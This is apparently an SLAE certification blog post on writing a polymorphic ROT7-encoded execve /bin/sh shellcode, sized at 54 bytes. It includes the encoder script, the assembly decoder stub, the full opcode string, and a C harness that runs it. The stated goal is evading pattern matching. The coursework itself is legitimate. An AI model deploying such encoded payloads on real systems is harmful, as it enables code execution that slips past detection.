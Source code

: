 # Assignment 6: ROT7 

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

## Problem

- Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching
- The polymorphic versions cannot be larger than 150% of the existing shellcode
- Bonus points for making it shorter in length than original

## Solution

In this post we are going to look at the Download and Execute shellcode avaiable at ![http://shell-storm.org/shellcode/files/shellcode-900.php](http://shell-storm.org/shellcode/files/shellcode-900.php "").

### Shellcode Analysis

To begin, lets grab a copy of that shellcode, compile it, and trace it with GDB:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/rot7/gdb1.png "GDB")

As can be appreciated, the shellcode uses the `JMP-CALL-POP` technique to get the payload address on the stack. The payload in this case is is the following string:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/rot7/gdb2.png "Encoded Payload")

which is of course the ROT7 encoded version of the shellcode that we want to execute. 

To decode the encoded opcodes, the shellcode loops around `0x1e` (30) times, basically doing `f(x) = 0x100 + (0x7 - x)`, where `x` is the next opcode. The encoded opcode is replaced by the decoded one, which is the result of the aforementioned mathematical expression. When everything is decoded, the control is transfered to the shellcode address previously `JMP-CALL-POP`ed.

If we break after the shellcode has been decoded, we can see that the decoded version is what is commonly known as a "stack-based `execve()` shell" shellcode. 

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/rot7/gdb3.png "Decoded Payload")

### Polymorphic Shellcode

Just like in the original Shell-Storm post, we will need a ROT7 encoder for our decoder to use. We will also use an `execve()` shellcode for this example.

### a6-rot7-encode.py
```python
#!/usr/bin/python

# Python ROT-7 Encoder
# execve 24 bytes
shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31"
    "\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
)

encoded = "\\x%02x," % len(bytearray(shellcode))
encoded2 = "0x%02x," % len(bytearray(shellcode)) 

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
# boundary is computed as 255-ROT(x) where x, the amount to rotate by
    if x > 248:
        encoded += '\\x'
        encoded += '%02x' %(7 -(256 - x))
        encoded2 += '0x'
        encoded2 += '%02x,' %(7 -(256 - x))
    else:
        encoded += '\\x'
        encoded += '%02x'%(x+7)
        encoded2 += '0x'
        encoded2 += '%02x,' %(x+7)
    
print '\n%s\n\n%s\n\nShellcode Length: %d\n' % (encoded, encoded2, len(bytearray(shellcode)))
```

Running the encoder produces the following opcodes, which we will be decoding further on:

```
Encoded shellcode ...

\x18,\x38\xc7\x57\x6f\x36\x36\x7a\x6f\x6f\x36\x69\x70\x75\x90\xea\x38\xd0\x90\xd1\x71\x12\x5f\xd4\x87

0x18,0x38,0xc7,0x57,0x6f,0x36,0x36,0x7a,0x6f,0x6f,0x36,0x69,0x70,0x75,0x90,0xea,0x38,0xd0,0x90,0xd1,0x71,0x12,0x5f,0xd4,0x87,

Shellcode Length: 24
```

Like the original shellcode from Shell-Storm, the morphed version will use the `JMP-CALL-POP` technique to get the address of the encoded shellcode. However, the mathematical manipulation will be different: `f(x) = x - 0x7`, where `x` is the next opcode. The encoded opcode will be replaced by the decoded one, which would be the result of the aforementioned mathematical expression.

### a6-rot7-decode.nasm
```nasm
; SLAE Assignment 6: ROT7 decoder (morphed)
; http://shell-storm.org/shellcode/files/shellcode-900.php
; Original Shellcode Length: 74
; Morphed Shellcode Length:  54

global _start
section .text
_start:
	jmp short stage

decoder:
	pop esi						; shellcode address
	mov al, byte [esi]			; shellcode length
	xor ecx, ecx 				; position

decode:
	mov bl, byte [esi+ecx+1]	; get rot'ed byted
	sub bl, 0x7					; rot it back (-7)
	mov byte [esi+ecx], bl		; store it in shellcode
	inc ecx						; next position
	cmp al, cl					; check if reached the end of shellcode
	jnz short decode 			; 	if not, continue derot'ing
	jmp shellcode				;	else, execute derot'ed shellcode

stage:
	call decoder
	
	; Shellcode Format: 
	; 	byte[0] 	= length of shellcode (max 0xff)
	;	byte[1..] 	= rot'ed shellcode
	shellcode: db 0x18,0x38,0xc7,0x57,0x6f,0x36,0x36,0x7a,0x6f,0x6f,0x36,0x69,0x70,0x75,0x90,0xea,0x38,0xd0,0x90,0xd1,0x71,0x12,0x5f,0xd4,0x87
```

Let's compile, link, and get the opcodes:

```
nasm -f elf32 -o a6-rot7-decode.o a6-rot7-decode.nasm
ld -o a6-rot7-decode a6-rot7-decode.o 
objdump -d ./a6-rot7-decode |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g' 
```

Make an executable skeleton for the opcodes:

### rot7.c
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x16\x5e\x8a\x06\x31\xc9\x8a\x5c\x0e\x01\x80\xeb\x07\x88\x1c\x0e\x41\x38\xc8\x75\xf1\xeb\x05\xe8\xe5\xff\xff\xff\x18\x38\xc7\x57\x6f\x36\x36\x7a\x6f\x6f\x36\x69\x70\x75\x90\xea\x38\xd0\x90\xd1\x71\x12\x5f\xd4\x87";

int main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```

And finally compile, execute, and check:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-6/rot7/example.png "Example")

Looks like everything works as expected: a `/bin/sh` is spawned.

As can be observed, the reported shellcode length is 54, which is 20 bytes shorter than the original 74. 

